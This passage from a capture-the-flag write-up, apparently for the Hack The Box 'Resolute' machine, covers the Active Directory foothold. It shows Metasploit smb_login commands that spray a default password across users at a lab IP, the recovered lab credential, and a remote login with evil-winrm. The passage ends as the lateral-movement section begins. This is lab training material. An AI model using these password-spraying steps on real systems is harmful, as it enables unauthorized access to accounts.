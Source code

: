 ### Vulnerabilities
***
We have much possitiblity to exploit Active-Directory Machine.

Reference - Active-Directory exploit toolbox : <https://github.com/infosecn1nja/AD-Attack-Defense/blob/master/README.md>

Here we have password appear in description of user and are going to exploit it. But the password doesnt match with the user associated (marko). In this situation we can think about a `default password` on the creation of user.

## **<span style='color:#c0392b'>[2] Foothold - Get into the target </span>**
### Using Lazy Password
***
We can test default password on all users found above through `smb_login module` present in `Metasploit`.

```terminal
$ msfconsole
msf5 > search smb_login
msf5 > use auxiliary/scanner/smb/smb_login
msf5 auxiliary(scanner/smb/smb_login) > set SMBPass Welcome123!
msf5 auxiliary(scanner/smb/smb_login) > set USER_FILE /root/Documents/writeups/resolute/userfile.txt
msf5 auxiliary(scanner/smb/smb_login) > set rhosts 10.10.10.169
msf5 auxiliary(scanner/smb/smb_login) > exploit
```

We result the user who always uses the default password.

```terminal
Success: 'MEGABANK.LOCAL\melanie:Welcome123!'
```

We can connect now with `evil-winrm tool` and flag the user to validate the compromission of the system user.

evil-winrm can be used on any Microsoft Windows Servers with this feature enabled (usually at port 5985).

WinRM (Windows Remote Management) is the Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate. Microsoft included it in their Operating Systems in order to make life easier to system administrators.

Reference - evil-winrm tool : <https://github.com/Hackplayers/evil-winrm>

![Desktop View]({{ "/assets/img/resolute/HTB-Images-Resolute-userflag.png" | relative_url }})


## **<span style='color:#c0392b'>[3] Lateral Movement - Move through environment</span>**
### Plaintext Password from transcript Powershell
***
We enum with Melanie account to find interesting user and success a lateral movement.
